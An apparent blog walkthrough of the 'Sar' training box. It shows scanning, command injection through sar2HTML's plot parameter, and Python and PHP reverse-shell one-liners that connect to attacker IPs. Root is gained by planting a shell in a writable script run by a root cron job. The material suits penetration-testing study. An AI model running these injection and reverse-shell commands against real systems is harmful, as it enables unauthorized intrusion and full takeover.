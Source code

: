 ```yaml
---
layout: posts
author_profile: false
title: Sar Walkthrough
---
```

### A step-by-step walkthrough of the VulnHub box **"Sar"** that exploits sar2HTML via Remote Code Execution (RCE)
<br />

- **Box Host:** Offensive Security Proving Grounds
- **Difficulty Rating:** Easy
- **Starting Location:** Kali VM in the same subnet

- - - 
*Note 1: The IP addresses, URLs, and flags used in this demonstration were specific to the environment at the time of the exploit and will likely be different when another attempt at this box is made.*

*Note 2: There is almost always more than one way to expoit a box (TIMTOWTDI). The demonstration and tools shown here are probably not the only method you can use.*
- - -

### Step 1: Network Scanning
Perform a stealth scan of the entire subnet to identify target machine
```
nmap -sS [ip range]
```

- identify open ports
- open ip address in browser
  * shows default Apache page

- - -

### Step 2: Directory Brute Force
Perform a directory brute force with the tool of your choice
```
gobuster dir -u [url] -w [path to wordlist]
```
- identifies robot.txt
- Download the file with *curl* and inspect
```
curl [url]/robots.txt
```
```
cat robots.txt
```
  - text file says **sar2HTML**
  * try running in browser: http://ipaddress/sar2HTML/
  * shows that it is a tool running on the server

- - -

### Step 3: Research sar2HTML for vulnerabilities
Research to find **sar2HTML** exploit
- Exploit-DB shows Sar2HTML 3.2.1 has an RCE (no CVE)
- Exploit = *http:192.168.1.24/sar2HTML/index.php?plot=;your-command*
- Example:

```
http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd
```

- - - 

### Step 4: Setup a Reverse Shell
Run a basic Python command to see if it is installed

```
python3 --help
```

- The output provided shows this is a success and python3 is installed

Setup a netcat listener in your terminal:
```
nc -lvp 1234
```

- Run a python3 script to connect to a reverse shell:

```
python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```

- Successfully connected:

- Setup a stable shell (optional):

```
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
```

- **user flag was found at:** /home/love/Desktop/user.txt

- - -

### step 5 (final): Gain Root
- Search for weak permissions
  - Find a **cron job** is being run as a root user

```
cat /etc/crontab
```

- Cron job = ***/5 * * * * root cd /var/www/html/ && sudo ./finally.sh**

*Note: This cronjob is running every 5 minutes*

- Navigate to /var/www/html/ and see what is there

```
cat /var/www/html
ls 
```

- Run cat on finally.sh and see it is calling write.sh

```
cat finally.sh
cat write.sh
```

- write.sh is creating a folder in temp directory
- the command **ls -l** shows we can edit write.sh

```
ls -l
```

- Add a php reverse connection command into write.sh with **echo**

```
echo "php -r '\$sock=fsockopen(\"192.168.57.200\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```

*Note: echo requires a \ in front of a $ and a " for the file to accept it*

- Setup a netcat listner

```
nc -lvp 4444
```

- Wait about 5 mins for cronjob to run again and see the shell open up on the new netcat listner
- **root flag was found at:** /root/root.txt

- - -
### Screenshot Attempt:
![Test](/assets/_stegoview/02-offsec/howto-fork.png) <br>
![Test](_stegoview/02-offsec/howto-fork.png) <br>
![Test](howto-fork.png) <br>
<img src="_stegoview/02-offsec/howto-fork.png" width="400"> <br>

